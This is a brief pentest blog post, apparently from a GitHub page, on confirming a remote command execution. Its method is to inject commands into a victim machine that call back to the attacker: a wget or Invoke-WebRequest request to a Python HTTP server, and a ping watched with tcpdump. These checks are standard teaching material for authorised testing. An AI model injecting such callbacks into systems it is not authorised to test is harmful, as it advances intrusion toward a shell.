 ```yaml
---
layout: post
title:  "How to test a RCE"
tags: ['reverse-shell', 'pentest-basics', 'rce']
---
```


## Introduction
In this post we are going to cover ways to test our potential RCE.
This is a good practice before getting the shell, if we do this test, we will test that the RCE that we found is correct and functional


## Python http server
The concept of this test is very simple, we are going to publish a site. We will inject a command wich will contain a GET request to an object on our http server.
If we see a message that says some client is sending us a GET request in our machine, we will know we have connectivity and we can inject commands.

>Note that the object in our web doesn't have to exist, the client (victim) will request some random object, and a message in our server will pop, telling us that someone (victim) is trying to get a resource that doens't exist. But we dont care about that, the point of this is test command injection and connectivity, not share objects.

We run this command to start the server in the attacker's machine
```bash
python3 -m http.server
```

The command what we have to inject in the victim's machine computer:
### Linux
```bash
wget $IP:8000/aaaa
```
### Windows
```powershell
Invoke-WebRequest -URI $IP:8000/aaaa
```

If we get any response at the server machine mean's that our RCE work's just fine.

## Hosting pings

The idea behind this test is also very simple.
We will be starting a server to listen ICMP pings.

```bash
sudo tcpdump -ni $network_interface icmp
```

In the $network_interface we have to set our current network interface (In the most cases wlan0 or eth0)


In the victimi's machine we have to inject:

### Linux
```bash
ping -c 1 $IP
```

### Windows 
```powershell
ping $IP
```

If we get any response at our server that mean's that the RCE works.






